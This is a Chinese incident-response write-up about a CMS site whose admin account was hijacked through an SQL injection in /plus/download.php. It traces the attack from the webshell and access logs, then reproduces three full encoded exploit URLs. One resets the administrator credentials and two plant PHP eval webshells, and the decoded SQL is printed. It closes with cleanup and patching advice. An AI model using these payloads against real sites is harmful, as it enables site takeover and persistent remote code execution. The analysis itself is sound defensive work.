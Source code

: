 ## 第8篇：管理员账号被篡改

​		你是某一个网站的管理员，有一天，你的管理员账号admin却登录不了，进入数据库查看，原来管理员账号用户名不存在了，却多了另外一个管理员用户名。不对，不是新增了管理员，而是你的管理员用户名被篡改了。

### 现象描述

前后端分离，后台只允许内网访问，管理员账号admin却依然被多次被篡改

### 问题处理

**1、网站webshell**

在针对网站根目录进行webshell扫描，发现存在脚本木马，创建时间为2018-06-13 04:30:30

![](http://img-upaiyun-own.test.upcdn.net/8-1.png)

**2、 定位IP** 

通过木马创建时间， 查看网站访问日志，定位到IP为：180.xx.xx.3

![](http://img-upaiyun-own.test.upcdn.net/8-2.png)

**3、关联分析**

全局搜索与该IP有关的操作日志：

![](http://img-upaiyun-own.test.upcdn.net/8-3.png)

在脚本木马生成前，有两条比较可疑的访问日志吸引了我们的注意：

```bsah
172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35 HTTP/1.1" 200 67

172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/ad_js.php?aid=19 HTTP/1.1" 200 32
```



对这段POC进行解码，我们发现通过这个poc可以往数据库中插入数据，进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

![](http://img-upaiyun-own.test.upcdn.net/8-4.png)

解码后：

cfg_dbprefixmyad` SET `normbody` = '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHERE `aid` =19 #  

综上，可以推测/plus/download.php中可能存在SQL注入漏洞，接下来，收集网上已公开的有以下3种EXP进行漏洞复现。

#### 漏洞复现

**利用方式一：修改后台管理员**

1、新建管理员账号test/test123789，可以成功登录网站后台

2、构造如下注入SQL语句：

`cfg_dbprefixadmin SETuserid='spider',pwd`='f297a57a5a743894a0e4' where id=19 #`

修改后台管理员为：用户名spider，密码admin。

（3）对应的EXP:

```
？open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=97&arrs2[]=100&arrs2[]=109&arrs2[]=105&arrs2[]=110&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=117&arrs2[]=115&arrs2[]=101&arrs2[]=114&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=115&arrs2[]=112&arrs2[]=105&arrs2[]=100&arrs2[]=101&arrs2[]=114&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=96&arrs2[]=112&arrs2[]=119&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=102&arrs2[]=50&arrs2[]=57&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=97&arrs2[]=55&arrs2[]=52&arrs2[]=51&arrs2[]=56&arrs2[]=57&arrs2[]=52&arrs2[]=97&arrs2[]=48&arrs2[]=101&arrs2[]=52&arrs2[]=39&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=105&arrs2[]=100&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35
```

执行EXP后，相应后台数据库表变为如下：

![](http://img-upaiyun-own.test.upcdn.net/8-5.png)

（4）因此相应后台登录用户变为spider密码admin

**利用方式二：通过/plus/mytag_js.php文件生成一句话木马php**

（1）如：构造如下注入SQL语句：

`cfg_dbprefixmytag(aid,expbody,normbody) VALUES(9013,@\','{dede:php}file_put_contents(''90sec.php'',''<?php eval($_POST[guige]);?>'');{/dede:php}') # @\'``

（2）对应的EXP:

`?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=116&arrs2[]=97&arrs2[]=103&arrs2[]=96&arrs2[]=32&arrs2[]=40&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=44&arrs2[]=101&arrs2[]=120&arrs2[]=112&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=44&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=41&arrs2[]=32&arrs2[]=86&arrs2[]=65&arrs2[]=76&arrs2[]=85&arrs2[]=69&arrs2[]=83&arrs2[]=40&arrs2[]=57&arrs2[]=48&arrs2[]=49&arrs2[]=51&arrs2[]=44&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96&arrs2[]=44&arrs2[]=39&arrs2[]=123&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=57&arrs2[]=48&arrs2[]=115&arrs2[]=101&arrs2[]=99&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=103&arrs2[]=117&arrs2[]=105&arrs2[]=103&arrs2[]=101&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=123&arrs2[]=47&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=39&arrs2[]=41&arrs2[]=32&arrs2[]=35&arrs2[]=32&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96` 

（3）执行EXP后，将向数据库表dede_mytag中插入一条记录，

![](http://img-upaiyun-own.test.upcdn.net/8-6.png)

（4）执行如下语句，在/plus目录下生成90sec.php一句话木马 http://www.xxxx.com/plus/mytag_js.php?aid=9013

**利用方式三：使/plus/ad_js.php文件变为一句话木马php**

（1）如：构造如下注入SQL语句：

`cfg_dbprefixmyadSETnormbody= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHEREaid` =19 #`  

（2）对应的EXP:

`/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35`

（3）执行EXP后，将向数据库表dede_myad中插入一条记录。

（4）进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

------

如何清除？

1、删除网站目录中的webshell

2、清除dede_myad、dede_mytag数据库表中插入的SQL语句，防止再次被调用生成webshell。

如何防御？

网站采用开源CMS搭建，建议及时对官方发布的系统补丁以及内核版本进行升级。

